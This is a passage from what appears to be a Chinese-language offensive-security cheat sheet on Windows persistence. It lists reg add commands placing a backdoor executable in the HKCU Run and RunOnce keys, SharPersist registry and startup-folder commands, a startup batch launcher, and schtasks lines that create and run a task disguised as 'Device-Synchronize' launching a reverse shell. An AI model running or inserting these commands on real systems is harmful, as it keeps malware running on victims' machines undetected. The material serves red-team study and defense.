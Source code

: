 在HKCU\Software\Microsoft\Windows内的Run键下创建一个REG_SZ值。

```powershell
值名称：  Backdoor
值数据：  C:\Users\Rasta\AppData\Local\Temp\backdoor.exe
```

使用命令行

```powershell
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v Evil /t REG_SZ /d "C:\Users\user\backdoor.exe"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v Evil /t REG_SZ /d "C:\Users\user\backdoor.exe"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices" /v Evil /t REG_SZ /d "C:\Users\user\backdoor.exe"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v Evil /t REG_SZ /d "C:\Users\user\backdoor.exe"
```

使用SharPersist

```powershell
SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "hkcurun" -v "Test Stuff" -m add
SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "hkcurun" -v "Test Stuff" -m add -o env
SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "logonscript" -m add
```

### 启动

在用户启动文件夹中创建批处理脚本。

```powershell
PS C:\> gc C:\Users\Rasta\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\backdoor.bat
start /b C:\Users\Rasta\AppData\Local\Temp\backdoor.exe
```

使用 SharPersist

```powershell
SharPersist -t startupfolder -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -f "Some File" -m add
```

### 计划任务用户

* 使用原生 **schtask** - 创建新任务

  ```powershell
  # 创建一次性在00:00运行的预定任务
  schtasks /create /sc ONCE /st 00:00 /tn "Device-Synchronize" /tr C:\Temp\revshell.exe
  # 立即强制运行它！
  schtasks /run /tn "Device-Synchronize"
  ```
